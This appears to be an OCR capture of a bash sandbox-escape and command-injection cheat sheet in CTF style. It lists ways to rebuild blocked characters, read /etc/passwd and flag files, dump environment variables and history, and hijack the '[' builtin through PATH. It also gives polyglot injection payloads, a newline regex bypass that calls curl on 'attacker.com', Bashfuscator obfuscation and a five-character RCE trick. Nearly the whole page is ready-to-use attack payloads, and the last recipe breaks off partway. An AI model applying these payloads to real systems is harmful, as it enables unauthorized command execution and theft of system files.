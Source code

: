 ```
# Get "/" char using printf and env vars
printf %.1s "$PWD"
## Execute /bin/ls
$(printf %.1s "$PWD")bin$(printf %.1s "$PWD")ls
## To get several letters you can use a combination of printf and
declare
declare functions
declare historywords

# Read flag in current dir
source f*
flag.txt:1: command not found: CTF{asdasdasd}

# Read file with read
while read -r line; do echo $line; done < /etc/passwd

# Get env variables
declare

# Get history
history
declare history
declare historywords

# Disable special builtins chars so you can abuse them as scripts
[ #[: ']' expected
## Disable "[" as builtin and enable it as script
enable -n [
echo -e '#!/bin/bash\necho "hello!"' > /tmp/[
chmod +x [
export PATH=/tmp:$PATH
if [ "a" ]; then echo 1; fi # Will print hello!
```
```
### Polyglot command injection

```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/**/
```
```
### Bypass potential regexes

```bash
# A regex that only allow letters and numbers might be vulnerable to new line characters
1%0a`curl http://attacker.com
```
```
### Bashfuscator

```bash
# From https://github.com/Bashfuscator/Bashfuscator
./bashfuscator -c 'cat /etc/passwd'
```
```
### RCE with 5 chars

```bash
# From the Organge Tsai BabyFirst Revenge challenge: https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge
#Oragnge Tsai solution
## Step 1: generate `ls -t>g to file "_" to be able to execute ls ordening names by cration date
http://host/?cmd=>ls\
http://host/?cmd=ls>_
http://host/?cmd=>\ \
```